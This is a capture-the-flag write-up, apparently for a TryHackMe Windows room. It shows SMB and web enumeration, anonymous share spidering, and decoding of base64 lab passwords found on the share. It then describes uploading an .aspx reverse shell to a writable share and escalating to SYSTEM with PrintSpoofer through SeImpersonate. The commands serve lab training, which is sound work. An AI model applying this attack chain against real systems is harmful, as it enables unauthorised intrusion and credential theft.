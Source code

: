 # 50 - Relevant (windows SeImpersonateToken priv esc)

Room Link --> [https://tryhackme.com/room/relevant](https://tryhackme.com/room/relevant)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv 10.10.15.188 -p- -T4

PORT      STATE SERVICE            REASON  VERSION
80/tcp    open  http               syn-ack Microsoft HTTPAPI httpd 2.0 
135/tcp   open  msrpc              syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack Microsoft Windows Server 2008 R2
3389/tcp  open  ssl/ms-wbt-server? syn-ack
49663/tcp open  http               syn-ack Microsoft HTTPAPI httpd 2.0 
49667/tcp open  msrpc              syn-ack Microsoft Windows RPC
49669/tcp open  msrpc              syn-ack Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: 
```
{% endcode %}

#### SMB enum

```bash
crackmapexec smb 10.10.15.188 -u 'anonymous' -p 'anonymous' --shares
```

<figure><img src=".gitbook/assets/image (368).png" alt=""><figcaption></figcaption></figure>

#### SMBMAP enum

```bash
smbmap -H 10.10.15.188 -u 'anonymous' -p 'anonymous'
```

<figure><img src=".gitbook/assets/image (369).png" alt=""><figcaption></figcaption></figure>

We can use crackmapexec to spider through and download everyshare we have read/write access to.

{% code overflow="wrap" lineNumbers="true" %}
```bash
crackmapexec smb 10.10.168.89 -u anonymous -p '' -M spider_plus -o READ_ONLY=true
```
{% endcode %}

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can now goto `/tmp` dir and view the downloaded flles.

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ cd /tmp/cme_spider_plus                                                          
                                                                                                             
┌──(dking㉿dking)-[/tmp/cme_spider_plus]
└─$ ls -al
total 24
drwxr-xr-x  3 dking dking  4096 Nov  1 06:26 .
drwxrwxrwt 35 root  root  12288 Nov  1 06:26 ..
drwxr-xr-x  3 dking dking  4096 Nov  1 06:26 10.10.168.89
-rw-r--r--  1 dking dking   245 Nov  1 06:26 10.10.168.89.json

┌──(dking㉿dking)-[/tmp/cme_spider_plus]
└─$ cat 10.10.168.89.json         
{
    "nt4wrksv": {
        "passwords.txt": {
            "atime_epoch": "2020-07-25 16:13:05",
            "ctime_epoch": "2020-07-25 16:13:05",
            "mtime_epoch": "2020-07-25 16:35:44",
            "size": "98 Bytes"
        }
    }
}                                                                                                             
┌──(dking㉿dking)-[/tmp/cme_spider_plus]
└─$ cd 10.10.168.89        
                                                                                                             
┌──(dking㉿dking)-[/tmp/cme_spider_plus/10.10.168.89]
└─$ ls -al
total 12
drwxr-xr-x 3 dking dking 4096 Nov  1 06:26 .
drwxr-xr-x 3 dking dking 4096 Nov  1 06:26 ..
drwxr-xr-x 2 dking dking 4096 Nov  1 06:26 nt4wrksv
                                                                                                             
┌──(dking㉿dking)-[/tmp/cme_spider_plus/10.10.168.89]
└─$ ls -al nt4wrksv 
total 12
drwxr-xr-x 2 dking dking 4096 Nov  1 06:26 .
drwxr-xr-x 3 dking dking 4096 Nov  1 06:26 ..
-rw-r--r-- 1 dking dking   98 Nov  1 06:26 passwords.txt

┌──(dking㉿dking)-[/tmp/cme_spider_plus/10.10.168.89/nt4wrksv]
└─$ cat passwords.txt    
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```
{% endcode %}

There are some encoded passwords here.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# decoded passwords.
┌──(dking㉿dking)-[~/Downloads]
└─$ echo 'Qm9iIC0gIVBAJCRXMHJEITEyMw==' | base64 -d
Bob - !P@$$W0rD!123                                                                                                                    
┌──(dking㉿dking)-[~/Downloads]
└─$ echo 'QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk' | base64 -d
Bill - Juw4nnaM4n420696969!$$$
```
{% endcode %}

Since we have access to `IPC$` shar, we could enumerate users anonymously.

{% code overflow="wrap" lineNumbers="true" %}
```bash
/usr/share/doc/python3-impacket/examples/lookupsid.py anonymous@10.10.168.89 | grep SidTypeUser

500: RELEVANT\Administrator (SidTypeUser)
501: RELEVANT\Guest (SidTypeUser)
503: RELEVANT\DefaultAccount (SidTypeUser)
1002: RELEVANT\Bob (SidTypeUser)

# we got Bob. But thats by the way, since we already got his credentials.
```
{% endcode %}

I tried to login using psexec but it did't work.

{% code overflow="wrap" lineNumbers="true" %}
```bash
/usr/share/doc/python3-impacket/examples/psexec.py 'bill:Juw4nnaM4n420696969!$$$@10.10.168.89'
```
{% endcode %}

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Web Enumeratioon

Navigating to the http server, `10.10.117.41:49663` -&#x20;

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
# nmap default script scan for port 49663.
49663/tcp open  http    syn-ack Microsoft IIS httpd 10.0
|_http-title: IIS Windows Servert
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
```
{% endcode %}

#### FFUF enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
ffuf -u http://10.10.117.41:49663/FUZZ -c -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -fc 403,400 -t 500 -ic

# the only dir found was at the latter end
┌──(dking㉿dking)-[~]
└─$ grep nt4wrksv /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -n
220538:nt4wrksv
```
{% endcode %}

### Initial Access

Navigating to the dir: `http://10.10.117.41:49663/nt4wrksv/`- we see its same as the SMB share dir. So `http://10.10.117.41:49663/nt4wrksv/passwords.txt`  -

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Meaning we are accessing the SMB share on the webserver. So we can put a malicious `.asp or .aspx` file to get reverse shell. Setup nc listener and we get a shell by executing the `.aspx` file on the server.

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see user.txt flag in Bob dir.

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc

Since we are service account, we have the `seimpersonate` privs.

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I already have a writeup for priv esc using `seimpersonate` [privileges](6-windows-priv-esc.md#15-token-impersonation-printspoofer) .

Upload `printspoofer.exe` into the windows machine.

```bash
.\PrintSpoofer.exe -i -c cmd
```

And we should get `nt/authority system` .

Done!

